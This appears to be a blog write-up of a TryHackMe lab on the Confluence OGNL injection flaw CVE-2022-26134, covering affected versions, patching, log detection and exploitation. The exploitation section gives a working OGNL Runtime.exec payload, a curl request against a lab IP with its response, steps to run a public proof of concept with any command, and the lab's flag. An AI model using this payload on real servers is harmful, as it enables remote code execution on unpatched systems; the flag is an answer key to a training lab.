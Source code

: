 ```yaml
---
weight: 3
title: "CTF writeup - Atlassian CVE-2022-26134"
date: 2022-08-28T22:16:40+08:00
lastmod: 2022-08-29T14:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Windows"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit, threat hunt & remediate the Atlassian CVE-2022-26134.
---
```


# Atlassian, CVE-2022-26134

![Untitled](/atlassian/Untitled.png)

On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's Confluence Server and Data Center editions.

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:

```
1.3.0 -> 7.4.17
7.13.0 -> 7.13.7
7.14.0 -> 7.14.3
7.15.0 -> 7.15.2
7.16.0 -> 7.16.4
7.17.0 -> 7.17.4
7.18.0 -> 7.18.1

```

You can view the NIST entry for CVE-2022-26134 [here.](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)

# Login portal

![Untitled](/atlassian/Untitled%201.png)

# Explaining the vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL

![Untitled](/atlassian/Untitled%202.png)

*Thanks to [Journaldev.com](http://journaldev.com/) for this example of OGNL in use.*

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

# Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read here. To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:

```
7.4.17
7.13.7
7.14.3
7.15.2
7.16.4
7.17.4
7.18.1

```

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in /opt/atlassian/confluence/logs. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

```bash
grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22" in catalina.out

```

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located here.

Unfamiliar with Yara? Check out the Yara room on TryHackMe [here](https://tryhackme.com/room/yara).

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: 

```bash
${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/  .
```

This will need to be URL encoded, like the following snippet below. You can use thewebsite [https://www.urlencoder.org/](https://www.urlencoder.org/) to help URL encode your payloads (note that your **curl** payload will need to end in a trailing **/** and not **$2F**):

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v [http://10.10.63.161:8090/%24{%40java.lang.Runtime%40getRuntime().exec("touch /tmp/thm")}/](http://10.10.63.161:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/)

- Trying 10.10.63.161:8090...
- Connected to 10.10.63.161 (10.10.63.161) port 8090 (#0)

> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1
Host: 10.10.63.161:8090
User-Agent: curl/7.84.0
Accept: /
> 
- Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1661613209991
< Set-Cookie: JSESSIONID=106FD01E12D08A53C9C95A3DBD577ADF; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sat, 27 Aug 2022 15:13:30 GMT
<
- Connection #0 to host 10.10.63.161 left intact
```

When looking at the server, we can see that it is vulnerable:

```bash
cmnatic@thm-cve-2022-26134:~$ ls /tmp
hsperfdata_confluence
thm
snap.lxd
```

The file “thm” was succesfully created.

# Proof of concept

There are a couple of ways we can exploit this. One of them is to download a POC by Samy Younsi (Mwqda) written in Python and hosted on GitHub.

First, we need to download the PoC to our host. I have decided to clone to the repository using git for this room.

```bash
git clone <https://github.com/Nwqda/CVE-2022-26134>
cd CVE-2022-26134

```

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

```bash
python3.9 cve-2022-26134.py <HTTP://10.10.63.161:8090> COMMAND

```

1. Create a payload to identify what user the application is running as? What is the user?
    1. We can see in the screenshot below that the application is running as the user “confluence”.
    
    ![Untitled](Atlassian,%20CVE-2022-26134%209008f3fbb3954789ae7cb41c40c26940/Untitled%203.png)
    
2. Finally, craft a payload to retrieve the flag stored at /flag.txt on the server. What is the flag?
    1. THM{OGNL_VULN}
    
    ![Untitled](/atlassian/Untitled%204.png)
    
    # Conclusion
    
    This was a brief showcase of the [CVE-2022-26134](https://nvd.nist.gov/vuln/detail/CVE-2022-26134) OGNL Injection vulnerability. Remember, OGNL is an expression language for Java-based web applications, so this vulnerability will also apply to other web apps running the same classes that Confluence uses!
    
    ## Additional Reading Material
    
    - [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
    - [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)
